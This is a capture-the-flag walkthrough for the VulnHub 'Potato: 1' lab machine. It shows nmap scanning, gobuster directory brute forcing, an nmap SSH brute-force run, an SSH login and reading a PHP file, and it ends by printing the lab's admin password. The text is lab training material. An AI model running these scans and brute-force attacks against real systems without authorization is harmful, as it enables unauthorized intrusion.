:::::::::::::: page
# Potato: 1 {#potato-1 .title}

\

## 

## Potato: 1

- **[Potato: 1]{style="color:#663e0e;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/potato-1,529/>



- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#3584e4;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Find available port in the machine :

::: codebox
    nmap -v -p- 192.168.2.124
:::



::: codebox
    nmap -sC -sV -A 192.168.2.124
:::



- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.124
:::



1.  [Web Enumeration]{style="color:#3584e4;"} :

- IP visit in browser : <http://192.168.2.124/>



- Now run the gobuster for directory brute force :

::: codebox
    gobuster dir -u http://192.168.2.124/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
:::



- Visit the parameter : <http://192.168.2.124/admin/>
  <http://192.168.2.124/potato/>

<!-- -->

- Again brute force in /admin parameter :

::: codebox
    gobuster dir -u http://192.168.2.124/admin/ -w /usr/share/wordlists/dirb/common.txt
:::



- Visit found parameter : <http://192.168.2.124/admin/logs/>



1.  [SSH Brute Force]{style="color:#3584e4;"} :

- Now SSH brute-force :

::: codebox
    nmap --script=ssh-brute.nse -p 22 192.168.2.124
:::



- Login ssh :

::: codebox
    ssh webadmin@192.168.2.124
:::

 

- Navigate the directory :

::: codebox
    cd /var/www/html/admin
:::

- Found dashboard.php file .

<!-- -->

- Read the file :

::: codebox
    cat dashboard.php
:::



- Now login the admin page :

::: codebox
    Username : admin
    Password : serdesfsefhijosefjtfgyuhjiosefdfthgyjh
:::

- 

 
::::::::::::::
